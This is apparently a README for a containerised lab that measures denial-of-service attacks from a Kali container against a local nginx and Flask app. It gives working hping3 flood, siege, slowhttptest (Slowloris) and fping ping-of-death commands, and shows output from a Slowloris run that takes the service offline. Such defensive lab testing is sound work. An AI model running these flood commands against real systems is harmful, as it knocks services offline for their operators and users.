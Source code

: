 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ siege -d1 -c50 -t60s http://localhost:8080
```
Example normal report
```
Transactions:		        5831 hits
Availability:		      100.00 %
Elapsed time:		       59.38 secs
Data transferred:	        0.01 MB
Response time:		        0.01 secs
Transaction rate:	       98.20 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.90
Successful transactions:        5831
Failed transactions:	           0
Longest transaction:	        0.16
Shortest transaction:	        0.00
```

Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21. Since our `siege` command reports normal results:
```
Transactions:		        5866 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.00 secs
Transaction rate:	       98.89 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.37
Successful transactions:        5866
Failed transactions:	           0
Longest transaction:	        0.11
Shortest transaction:	        0.00
```
We can only observe increase traffic on nginx container:

* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our siege command results show us that our application was unable to server requests
```
siege aborted due to excessive socket failure; you
can change the failure threshold in $HOME/.siegerc

Transactions:		         512 hits
Availability:		       33.33 %
Elapsed time:		       16.26 secs
Data transferred:	        0.00 MB
Response time:		        0.02 secs
Transaction rate:	       31.49 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.65
Successful transactions:         512
Failed transactions:	        1024
Longest transaction:	        0.07
Shortest transaction:	        0.00
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)
